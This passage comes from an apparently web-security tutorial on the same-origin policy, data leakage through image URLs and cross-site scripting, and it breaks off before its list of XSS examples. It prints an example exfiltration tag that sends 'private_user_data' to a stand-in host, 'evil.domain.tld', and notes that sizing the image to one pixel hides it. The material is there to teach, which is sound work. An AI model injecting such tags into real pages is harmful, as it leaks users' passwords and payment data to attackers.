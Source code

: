 <p>One thing that JavaScript code is trusted to do is load more content. For example, you might build a basic image gallery application by writing some JavaScript code that inserts and deletes &lt;img&gt; tags into the current page. When you insert an &lt;img&gt; tag, the browser immediately loads the image as if it had been present in the original page; if you delete (or hide) an &lt;img&gt; tag, the browser removes it from the display.</p>

<p>Essentially, the SOP lets JavaScript code do anything that the original HTML page could have done -- it just prevents that JavaScript from sending data to a different server, or from reading or writing data belonging to a different server.</p>

<h3 id="leaking">Leaking Data</h3>

<p>The text above said, "prevents JavaScript from sending data to a different server." Unfortunately, that's not strictly true. In fact it is possible to send data to a different server, although it might be more accurate to say "leak."</p>

<p>JavaScript is free to add new resources -- such as &lt;img&gt; tags -- to the current page. You probably know that you can cause an image hosted on foo.com to appear inline in a page served up by bar.com. Indeed, some people get upset if you do this to their images, since it uses their bandwidth to serve an image to your web visitor. But, it's a feature of HTML, and since HTML can do it, so can JavaScript.</p>

<p>Normally you would view this as a read-only operation: the browser requests an image, and the server sends the data. The browser didn't upload anything, so no data can be lost, right? Almost, but not quite. The browser <i>did</i> upload something: namely, the URL of the image. Images use standard URLs, and any URL can have query parameters encoded in it. A legitimate use case for this might be a page hit counter image, where a CGI on the server selects an appropriate image based on a query parameter and streams the data to the user in response. Here is a reasonable (though hypothetical) URL that could return a hit-count image showing the number '42':</p>

<pre>
http://site.domain.tld/pagehits?count=42
</pre>

<p>In the static HTML world, this is perfectly reasonable. After all, the server is not going to send the client to a web site that will leak the server's or user's data -- at least, not on purpose. Because this technique is legal in HTML, it's also legal in JavaScript, but there is an unintended consequence. If some evil JavaScript code gets injected into a good web page, it can construct &lt;img&gt; tags and add them to the page.</p>

<p>It is then free to construct a URL to any hostile domain, stick it in an &lt;img&gt; tag, and make the request. It's not hard to imagine a scenario where the evil code steals some useful information and encodes it in the &lt;img&gt; URL; an example might be a tag such as:</p>

<pre>
&lt;img src="http://evil.domain.tld/pagehits?private_user_data=12345"/&gt;
</pre>

<p>If <code>private_user_data</code> is a password, credit card number, or something similar, there'd be a major problem. If the evil code sets the size of the image to 1 pixel by 1 pixel, it's very unlikely the user will even notice it.</p>

<h3 id="cross-site">Cross-Site Scripting</h3>

<p>The type of vulnerability just described is an example of a class of attacks called "Cross-Site Scripting" (abbreviated as "XSS"). These attacks involve browser script code that transmits data (or does even worse things) across sites. These attacks are not limited to &lt;img&gt; tags, either; they can be used in most places the browser lets script code access URLs. Here are some more examples of XSS attacks:</p>
